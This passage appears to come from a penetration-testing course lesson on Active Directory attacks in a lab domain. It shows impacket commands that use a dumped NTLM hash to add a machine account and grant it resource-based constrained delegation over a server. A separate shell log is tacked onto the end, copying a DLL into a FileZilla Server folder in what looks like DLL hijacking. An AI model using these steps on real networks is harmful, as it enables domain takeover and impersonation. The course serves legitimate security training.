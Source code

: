 > Listing 21 - Enumerating ms-DS-MachineAccountQuota

Normally, the computer account object is created when a physical computer is joined to the domain. However, we can create the object itself with the **impacket-addcomputer** command directly from Kali, using either the clear text password or NTLM hash of a domain user.

If performing the attack from Windows, we can use the _New-MachineAccount_ method of the _Powermad.ps1_[4](https://portal.offsec.com/courses/pen-300-9502/learning/attacking-active-directory-52291/attacking-active-directory-52395#fn-local_id_687-4) PowerShell script to avoid possible issues with DNS.

We'll simulate that we've dumped the hash for the _mary_ user earlier in the engagement and use it to create a new computer called _myComputer4_ with the password _h4x_.

```
kali@kali:~$ impacket-addcomputer -computer-name 'myComputer$' -computer-pass 'h4x' corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Successfully added machine account myComputer$ with password h4x.
```

> Listing 22 - Adding myComputer to the domain using the mary NTLM hash

Great. The output indicates that the command was successful and that the _myComputer$_ account has been added to the domain.

Since _mary_ has GenericWrite on the _BACKUP01_ computer object, we should be able to edit the _msDS-AllowedToActOnBehalfOfOtherIdentity_ on it.

As mentioned before, the property stores the SID as a part of a security descriptor and it does this in a binary format. If we were doing this attack from Windows, we would obtain the computer SID for _myComputer_, convert it into a byte array to match the format for the _msDS-AllowedToActOnBehalfOfOtherIdentity_, and then use _Set-DomainObject_ to inject it.

In this case, we'll use the **impacket\_rbcd** tool that does all of this for us. We need to specify what action to perform, which computer to delegate to, and which computer to delegate from.

```
kali@kali:~$ impacket-rbcd -action write -delegate-to "BACKUP01$" -delegate-from "myComputer$" corp.com/mary -hashes :942f15864b02fdee9f742616ea1eb778
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Attribute msDS-AllowedToActOnBehalfOfOtherIdentity is empty
[*] Delegation rights modified successfully!
[*] myComputer$ can now impersonate users on BACKUP01$ via S4U2Proxy
[*] Accounts allowed to act on behalf of other identity:
[*]     myComputer$   (S-1-5-21-3515682028-2106700410-3524882512-12101)
```

> Listing 23 - Adding delegation permissions to BACKUP01

Excellent. As indicated in the output, _myComputer$_ can now impersonate users on _BACKUP01$_ via S4U2Proxy.

Now that we have set up resource-based constrained delegation and we have control over the computer object, the rest of the attack is very similar to what we did earlier with constrained delegation.


[files02]: PS>
[files02]: PS>whoami
[files02]: PS>[System.Security.Principal.WindowsIdentity]::GetCurrent().Name
[files02]: PS>Get-Command
[files02]: PS> Copy-Item -Path 'C:\Windows\System32\drivers\etc\hosts' -Destination 'C:\shares\home\mary'
[files02]: PS>[files02]: copy-item C:\shares\home\mary\msasn1.dll -destination "C:\Program Files\FileZilla Server\msasn1.dll"